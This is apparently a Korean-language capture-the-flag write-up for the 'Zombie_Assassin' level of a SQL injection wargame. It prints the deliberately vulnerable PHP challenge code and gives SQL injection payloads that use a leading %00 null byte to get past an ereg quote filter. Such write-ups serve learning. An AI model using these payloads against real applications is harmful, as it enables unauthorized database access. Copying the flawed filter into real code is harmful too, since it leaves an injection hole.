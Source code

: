 # **Zombie_Assassin**
## 1. 문제의도
ereg 의 취약점을 아는가

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id]))
      exit("No Hack ~_~");

    if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw]))
      exit("No Hack ~_~");

    if(@ereg("'",$_GET[id]))
      exit("HeHe");

    if(@ereg("'",$_GET[pw]))
      exit("HeHe");

    $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));

    if($result['id'])
      solve("zombie_assassin");

    highlight_file(__FILE__);
  ?>
```
----

### 1. 통과 조건

그냥 단순히 id만 유도하면 된다. (단순 참 유도)

----
## 3. Solution

싱글쿼터를 필터링 할 때 ereg 를 사용했다.  
ereg는 대소문자를 구분한다는 특징과 %00, NULL 까지만 검사한다는 특징(?) 이 있다.

### My Answers :

고로 %00을 앞에 적어주고 싱글쿼터를 닫은 후 or 1 로 참을 만들어 클리어 하였다.

id GET parameter : %00' or 1 -- -
pw GET parameter : %00' or '1

클리어~!

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**

